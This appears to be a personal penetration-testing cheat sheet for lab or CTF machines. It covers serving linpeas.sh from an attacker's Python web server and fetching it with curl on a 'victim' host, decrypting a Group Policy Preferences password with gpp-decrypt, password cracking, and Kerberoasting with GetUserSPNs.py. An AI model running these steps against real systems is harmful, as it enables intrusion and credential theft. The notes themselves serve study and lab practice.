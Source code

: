 # How to transfer file from your machine to victim's?

1. Open http server using Python
```
python3 -m http.server 80
```
2. On victim's machine type:
```
curl -O http://10.10.14.24/linpeas.sh
```

# About finding passwords for users

- Use every wordlist and johntheripper/hashcat and try to find password

# About Group Policy Preferences

Group Policy Preferences (GPP) was introduced in Windows Server 2008, and among many other features,
allowed administrators to modify users and groups across their network.
An example use case is where a company’s gold image had a weak local administrator password, and
administrators wanted to retrospectively set it to something stronger. The defined password was AES-256
encrypted and stored in Groups.xml . However, at some point in 2012, Microsoft published the AES key on
MSDN, meaning that passwords set using GPP are now trivial to crack and considered low-hanging fruit.

![image](https://github.com/user-attachments/assets/ab5fcc0b-38ff-4d15-a5d7-674722884bd5)

### Example

We extract the encrypted password form the Groups.xml file and decrypt it using gpp-decrypt .

```
gpp-decrypt
edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```

# Fixing "Kerberos SessionError"

![image](https://github.com/user-attachments/assets/4585b5a6-d0dc-4cd3-8be0-4c1bebf6f18d)

1. If you are not currently running as the root user, switch to the root user by running the “su” command
2. Run “timedatectl set-ntp off” to disable the Network Time Protocol from auto-updating
3. Run “rdate -n [IP of Target]” to match your date and time with the date and time of the your target machine
4. Run your Kerberoast command (which should be GetUserSPNs.py [Domain Name].local/[username]:[password] -dc-ip [Domain Controller IP] -request)
